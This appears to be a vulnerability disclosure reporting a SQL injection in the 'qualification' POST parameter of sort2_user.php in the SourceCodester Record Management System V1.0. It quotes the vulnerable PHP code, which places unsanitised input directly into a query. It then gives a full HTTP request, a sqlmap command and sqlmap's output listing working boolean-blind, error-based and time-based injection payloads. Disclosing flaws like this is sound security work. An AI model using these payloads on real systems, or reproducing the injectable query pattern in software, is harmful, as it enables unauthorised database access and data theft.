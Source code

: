 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (sort2_user.php qualification parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort2_user.php 

On this page, qualification parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/sort2_user.php):
```
$qualification=$_POST['qualification'];
$name_query=mysqli_query($conn,"select * from qualification where qualification='$qualification'")or die(mysqli_error());
$query_row=mysqli_fetch_array($name_query);
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/sort2_user.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 152
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/sort_user.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

filter2=&qualification=Sort+Personnel+by+Qualification
```
#### -> sqlmap -r 1.txt(above request package) --batch
## Output:
```
---
Parameter: qualification (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: filter2=&qualification=Sort Personnel by Qualification' OR NOT 5826=5826#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: filter2=&qualification=Sort Personnel by Qualification' OR (SELECT 7038 FROM(SELECT COUNT(*),CONCAT(0x716b6b7171,(SELECT (ELT(7038=7038,1))),0x717a787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- lZvV

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter2=&qualification=Sort Personnel by Qualification' AND (SELECT 5404 FROM (SELECT(SLEEP(5)))IPHY)-- kVrK
---
```
